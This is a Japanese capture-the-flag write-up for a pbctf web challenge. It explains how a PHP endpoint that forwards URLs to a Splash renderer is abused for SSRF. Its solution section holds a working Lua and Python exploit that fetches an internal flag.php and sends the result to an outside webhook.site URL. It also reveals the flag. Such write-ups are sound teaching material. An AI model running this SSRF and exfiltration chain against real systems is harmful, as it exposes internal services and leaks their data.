

Not solved :(

# Try

リンク先にアクセスすると以下のような画面が表示される。


適当にURLを入力し、Submitすると謎の数字が出力される。


また、このページでソースコードをダウンロードできる。[[source code](dist.zip)]

ユーザーが値をSubmitしたとき、サーバーサイドでの動作は次のようになる。

`index.php`

* `api.php?url=`を呼び出す

`api.php`

* `file_get_contents("http://splash:8050/render.json?timeout=1&url=" . urlencode($url))`を実行する

* 実行結果をJSON形式で返す

    * `{"geometry":[0,0,1024,768]}`

`index.php`

* `api.php`の戻り値を表示する

脆弱性がありそうなのは`api.php`で、ここで`flag.php`を呼び出すことができれば良さそう。
 
| input         | output       |
| ------------- | ------------ |
| ` `           | undefined    |
| `php://input` | null         |
| `flag`        | 0,0,1024,768 |

`file_get_contents`では`scrapinghub/splash`の`render.json`にアクセスしている。

そのため、PHPの実行結果を`geometry`キーの値に設定できないか、Splashのドキュメントを読んで調べる。

* https://splash.readthedocs.io/en/stable/api.html

# Solution

**[writeup]**

* https://ctftime.org/writeup/25207

`Splash`でLuaスクリプトを実行する。

* [Splash Scripts Tutorial](https://splash.readthedocs.io/en/stable/scripting-tutorial.html#scripting-tutorial)

実行するスクリプトは以下の通り。

```lua
function main(splash)
    local treat = require("treat")
    local json = splash:http_get('http://172.16.0.14/flag.php')
    local response=splash:http_get('https://webhook.site/25760c6e-5ef1-42f7-b8e1-bae8e3abbf4b?flag='.. treat.as_string(json.body))
end 
```

これを`execute?lua_source=`に渡せばよい。

実行結果はWebhookで受け取る。今回は https://webhook.site/ を使う。

```py
import requests
from urllib.parse import quote

lua="""
function main(splash)
    local treat = require("treat")
    local json = splash:http_get('http://172.16.0.14/flag.php')
    local response=splash:http_get('https://webhook.site/25760c6e-5ef1-42f7-b8e1-bae8e3abbf4b?flag='.. treat.as_string(json.body))
end         
"""
 
url='http://sploosh.chal.perfect.blue/api.php?url=http://splash:8050/execute?lua_source='+quote(lua)
response=requests.get(url)
print(response.text)
```

上記コードを実行すると、Webhookに対するリクエストを見ることができる。



<!-- pbctf{1_h0p3_y0u_us3d_lua_f0r_th1s} -->

## Comment

Webhookを使った問題が初めてだった。

また、APIドキュメントを読んでLuaスクリプトが実行できることはわかっていたが、パラメータの渡し方がわかっていなかった。